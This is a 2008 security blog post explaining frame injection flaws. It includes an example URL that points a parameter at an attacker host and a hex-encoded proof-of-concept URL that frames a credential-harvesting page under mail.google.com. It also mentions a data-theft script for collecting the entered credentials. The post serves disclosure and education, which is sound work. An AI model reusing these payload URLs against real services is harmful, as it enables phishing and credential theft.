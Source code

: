 ```yaml
---
title: Frame Injection Fun
author: adrian-pastor
date: Fri, 10 Oct 2008 00:01:28 GMT
template: post.jade
category: fucked
---
```


Frame injection vulnerabilities, although some people might consider them the same as HTML injection/XSS or even a subset, they really are not the same. Here is why:

* There is no need to inject special control characters such as angle brackets (unlike HTMLi/XSS)
* HTMLi/XSS filtering routines will not project against frame injection since the attacker only needs to insert a URL in the non-sanitized parameter

The best way to explain what I mean is to show an example. Most frame injection issues occur in web applications because dynamic [frameset/iframe](http://www.w3.org/TR/html4/present/frames.html) insertion is not implemented with enough filtering. For instance, say that we have the following URL on the target site:

    https://www.victim.foo/index.php?**targeturl**=/contact.php

    A malicious user with intentions of launching a phishing attack will try tampering the `targeturl` parameter. His goal is to insert a third-party page that is under his control, rather than the original contact page. Indeed, `index.php`, although is not allowing HTML or JavaScript to be assigned to `targeturl`, is happy to process an absolute URL rather than a relative one:

    https://www.victim.foo/index.php?**targeturl**=http://evil.foo/login.php

    I thought that showing a live example would help our readers get an idea of what frame injection looks in action. For that purpose, I prepared a rather not elegant proof of concept which takes advantage of the Google Images service. What's neat is that although the legitimate URL would normally use the `images.google.com` domain, Google also allow us to use other google.com subdomains such as `mail.google.com` which is used by Gmail. This is ideal, as we're trying to accomplish a frame injection attack which can be used to perform phishing attacks against Gmail users.

    http://mail.google.com/imgres?imgurl=http://SecureGoogleMail&**imgrefurl**=http://mail.google.com/imgres?imgurl=http://SecureGoogleMail&imgrefurl=%68%74%74%70%3a%2f%2f%73%6e%69%70%75%72%6c%2e%63%6f%6d%2f%67%6e%77%62%6f

<div class="screen">![Frame Injection Fun POC](/files/2008/10/frame-injection-fun-poc-300x210.png "Frame Injection Fun POC")</div>

The previous PoC URL will cause the entered credentials to be submitted to www.gnucitizen.org when clicking on Sign in, so please do NOT submit any real credentials!

> pIn short:p The attacker has managed to display a non-legitimate third-party page, while the legitimate domain (mail.google.com in this case) is shown in the address bar.The beauty of frame injection attacks is that the attacker is able to impersonate a trusted entity without needing to bypass XSS/HTMLi filters or even break into the target server.

_Needless to say, in real-life the attacker would most likely automate the process of obtaining the harvested credentials by using a tool such as our [x.php](http://lab.gnucitizen.org/projects/x-php-data-theft-script) data-theft script._
